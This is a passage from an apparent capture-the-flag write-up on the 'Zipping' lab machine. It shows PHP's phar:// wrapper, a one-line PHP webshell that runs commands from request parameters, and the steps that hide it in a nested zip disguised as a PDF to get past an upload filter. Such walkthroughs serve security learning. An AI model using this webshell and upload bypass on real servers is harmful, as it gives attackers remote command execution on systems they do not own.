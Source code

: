It still works the same:

```

php > echo file_get_contents('phar://test.pdf/test.txt');
this is a test
php > if (file_exists('phar://test.pdf/test.txt')) { echo "exists"; }
exists

```

#### Exploit Zipping

I’ll create a simple webshell, `shell.php`:

```

<?php system($_REQUEST['cmd']); ?>

```

I’ll zip it into a file called `shell.pdf`:

```

oxdf@hacky$ zip shell.pdf shell.php 
  adding: shell.php (stored 0%)
oxdf@hacky$ unzip -l shell.pdf
Archive:  shell.pdf
  Length      Date    Time    Name
---------  ---------- -----   ----
       35  2024-01-11 14:26   shell.php
---------                     -------
       35                     1 file

```

I’ll put that into a zip archive called `shell.zip`:

```

oxdf@hacky$ zip shell.zip shell.pdf 
  adding: shell.pdf (deflated 34%)
oxdf@hacky$ unzip -l shell.zip 
Archive:  shell.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
      203  2024-01-11 14:26   shell.pdf
---------                     -------
      203                     1 file

```

Now when I upload that zip, Zipping will unzip `shell.pdf` and return me the link to it:

![image-20240111142822352](/img/image-20240111142822352.png)

